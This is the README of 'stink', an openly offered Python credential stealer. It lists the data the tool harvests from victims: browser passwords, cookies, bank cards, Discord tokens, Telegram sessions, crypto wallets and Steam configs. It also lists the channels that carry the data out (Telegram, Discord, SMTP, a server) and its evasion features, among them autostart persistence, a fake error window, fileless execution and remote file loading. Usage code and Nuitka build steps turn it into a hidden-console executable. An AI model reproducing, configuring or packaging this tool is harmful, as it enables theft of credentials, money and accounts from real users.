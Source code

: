 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord / SMTP. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Partially)
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Other 10 wallets
   - Steam configs
3. Built-in sending methods: 
   - Telegram
   - Server
   - Discord
   - SMTP
4. Support for browser multiprofiles.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.
9. Execution without creating any files.
10. Downloading and launching files by link.

## Example usage
### Standard
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Additional parameters

- `features` - list of modules from `stink.Features`:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - list of utilities from `stink.Utils`:

  - `autostart` - adding to autostart.

  - `message` - showing a fake [error window](https://github.com/FallenAstaroth/stink/wiki/Fake-error).


- `senders` - list of sending methods from `stink.Senders`:

  - `server` - sending to [server](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - sending to [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - sending to [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - send to [mail](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - file loaders from `stink`:

  - `Loader` - universal [loader](https://github.com/FallenAstaroth/stink/wiki/Files-loader).
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
